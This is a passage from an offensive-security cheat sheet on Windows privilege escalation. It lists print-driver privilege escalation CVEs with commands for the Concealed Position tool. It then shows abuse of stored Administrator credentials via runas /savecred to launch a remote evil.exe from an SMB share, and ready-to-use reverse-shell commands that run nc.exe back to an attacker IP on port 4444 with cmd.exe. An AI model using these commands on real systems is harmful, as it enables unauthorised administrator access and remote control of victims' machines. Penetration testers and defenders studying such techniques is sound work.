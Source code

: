 ### Bring Your Own Vulnerability

Concealed Position : https://github.com/jacob-baines/concealed_position

* ACIDDAMAGE - [CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449) - Lexmark Universal Print Driver LPE
* RADIANTDAMAGE - [CVE-2021-38085](https://nvd.nist.gov/vuln/detail/CVE-2021-38085) - Canon TR150 Print Driver LPE
* POISONDAMAGE - [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) - Ricoh PCL6 Print Driver LPE
* SLASHINGDAMAGE - [CVE-2020-1300](https://nvd.nist.gov/vuln/detail/CVE-2020-1300) - Windows Print Spooler LPE

```powershell
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# Set the "Advanced Sharing Settings" -> "Turn off password protected sharing"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```

## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. 
The following example is calling a remote binary via an SMB share.
```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## EoP - Abusing Shadow Copies

